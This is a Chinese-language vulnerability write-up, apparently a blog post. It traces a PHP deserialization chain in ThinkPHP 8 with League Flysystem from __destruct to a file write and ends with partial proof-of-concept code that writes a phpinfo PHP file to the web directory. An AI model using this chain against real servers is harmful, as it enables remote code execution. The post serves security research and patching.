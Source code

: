 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn7JTcZbMPQ80CLlmVh9UKRUkfiaTtKDksEGDicwYqHr6KO3ChNXdkFE7PaWC1418H3XuB1mq2zf7qPg/640?wx_fmt=png&from=appmsg "")  
> 关于路由访问, 参考官方文档: https://doc.thinkphp.cn/v8_0/preface.html  
  
## 漏洞分析  
### 任意文件写入  
  
这里也能达到一个代码执行的效果, 但需要文件落地, 具体挖掘过程如下:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn7JTcZbMPQ80CLlmVh9UKRUzAYlAjfrCcpFGDicTs1MibUkZsxvc83MRljecpdDMzXTPTUJWOu1MpqQ/640?wx_fmt=png&from=appmsg "")  
  
全局搜索__destruct  
, 发现League\Flysystem\Cached\Storage\AbstractCache  
这个类存在一个save  
方法调用, 但它是抽象类, 不允许反序列化, 随后找一下它的子类:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn7JTcZbMPQ80CLlmVh9UKRUVqgGGHnYJZRcAyu3FeGuBV5rjhPM5GmvZvsHXdWFqaCUmoz6bxSXrw/640?wx_fmt=png&from=appmsg "")  
  
首先开方法体部分, 在方法体中,第107行代码调用了getForStorage  
方法, 从其中我们可以看到返回了一个JSON  
串, 而成员属性是可控的, 所以这里$contents  
的最终结果是部分可控的, 因为返回了一个具体的JSON  
串.  
  
在看后面的112行, 由于存在一个write  
调用, 这里可以查找__call  
方法的调用, 或者查找同名方法, 而由于write  
方法名就像是写入文件操作, 所以这里全局搜索write  
方法的定义, 看一下是否存在一些文件写入等功能模块的调用 (注意这里的参数1, 参数2是可控的).  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn7JTcZbMPQ80CLlmVh9UKRUVTM71hQaA0fs5hWJ2SDPtaCpbfVXOQZKdFIicONicMEroRFPRGicEXuxw/640?wx_fmt=png&from=appmsg "")  
  
这里存在一个文件写入操作, 至此, 链路结束, 还算是比较简短的一条链路.  
#### POC 编写 & 漏洞验证  
  
最终POC  
编写如下:  
```
<?php

// League\Flysystem\Cached\Storage\AbstractCache::__destruct
// League\Flysystem\Cached\Storage\Adapter::save
// League\Flysystem\Adapter\Local::write

namespace League\Flysystem\Adapter {
    class Local {

    }
}

namespace League\Flysystem\Cached\Storage {
    class AbstractCache {
        protected $autosave = false;
    }

    class Adapter extends AbstractCache {
        protected $file = './heihu577.php';
        protected $cache = ['<?=phpinfo();?>'];
        protected $adapter;
        public function __construct() {
            $this -> adapter = new \League\Flysystem\Adapter\Local();
        }
    }
}

```